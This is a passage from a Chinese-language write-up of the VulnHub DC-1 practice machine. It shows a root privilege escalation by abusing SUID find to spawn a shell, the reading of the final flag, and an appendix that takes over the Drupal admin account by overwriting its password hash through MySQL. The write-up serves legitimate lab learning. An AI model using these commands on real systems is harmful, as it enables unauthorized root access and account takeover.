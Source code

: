看到 find 没有,今天就让我提个痛快
```bash
find . -exec /bin/sh \; -quit
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC1/15.png)

```
ls /root
cat /root/thefinalflag.txt
```

提权成功,感谢靶机作者 @DCUA7,查看最终 flag

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC1/16.png)

---

# 补充

在 flag3 跑 hashcat 时,如果跑不出密码,除了 google 以外还有2种方式登录 admin 账号
- 直接数据库修改 Drupal users 表
- 通过 drush 修改 admin 用户的密码

**直接数据库修改 Drupal users 表**

我都爆出了 Fred 的明文 MyPassword 了,那我直接把 admin 的改成和 Fred 的一样不就行了
```bash
mysql -u dbuser -p
use drupaldb;
update users set pass='$S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg' where name='admin';
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC1/17.png)
